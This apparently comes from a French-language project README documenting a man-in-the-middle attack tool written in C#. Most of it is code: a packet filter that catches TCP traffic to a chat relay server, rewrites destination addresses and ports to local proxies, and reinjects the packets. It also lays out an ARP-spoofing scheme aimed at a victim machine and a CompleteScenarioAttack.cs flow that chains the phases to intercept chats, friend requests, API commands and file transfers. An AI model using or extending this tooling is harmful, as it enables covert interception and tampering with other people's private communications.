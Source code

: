 #### **🕷️ Flux Packet Interception (PacketCapture.cs)**
```csharp
// 🎯 FILTRAGE SPÉCIFIQUE - Intercept TCP vers relay
var filter = $"tcp and dst host {relayServerIP} and (dst port 7777 or dst port 8888 or dst port 8889 or dst port 8891)";

// 🚨 MODIFICATION PACKET TEMPS RÉEL
ipPacket.DestinationAddress = IPAddress.Parse("127.0.0.1");  // → localhost
tcpPacket.DestinationPort = (ushort)localProxyPort;          // → proxy port

// 🔄 RECALCUL CHECKSUMS + RÉINJECTION
tcpPacket.UpdateTcpChecksum();
ipPacket.UpdateCalculatedValues();
_injectionDevice.SendPacket(ethernetPacket.Bytes);
```

### 🎯 **ARCHITECTURE FINALE HYBRIDE COMPLÈTE**

#### **🌐 Niveau 1: ARP Spoofing (Redirection L2)**
```
🎯 VICTIME VM (192.168.1.147) croit que Gateway = Attaquant
🕷️ ATTAQUANT (192.168.1.145) reçoit tout le trafic victime
```

#### **📦 Niveau 2: Packet Interception (L3/L4)**
```csharp
// CAPTURE PACKETS TCP SPÉCIFIQUES
🎯 tcp and dst host 192.168.1.152 and (dst port 7777|8888|8889|8891)

// MODIFICATION TRANSPARENTE
📍 192.168.1.152:7777 → 127.0.0.1:27777  // Friend Requests
📍 192.168.1.152:8888 → 127.0.0.1:28888  // Chat Messages
📍 192.168.1.152:8889 → 127.0.0.1:28889  // API Commands
📍 192.168.1.152:8891 → 127.0.0.1:28891  // File Transfers
```

#### **🕷️ Niveau 3: TCP Proxy (Application)**
```
🔄 Proxies Multi-Ports (27777/28888/28889/28891) → Relay MITM
```

### ✅ **IMPLÉMENTATION INTÉGRÉE COMPLÈTE**

#### **🚀 CompleteScenarioAttack.cs - Flow Complet**
```csharp
// PHASE 4: Packet Level Interception (NOUVELLE)
LogMessage?.Invoke("📍 PHASE 4: Packet Level Interception");
await StartPacketLevelInterception(relayServerIP, currentIP);

// MÉTHODE INTÉGRÉE
private async Task StartPacketLevelInterception(string relayServerIP, string attackerIP)
{
    _packetCapture.ConfigureInterception(relayServerIP, attackerIP);
    bool started = await _packetCapture.StartCapture(interfaceName, relayServerIP, attackerIP);
    _packetCapture.EnableTCPInterceptionFilter();
}
```
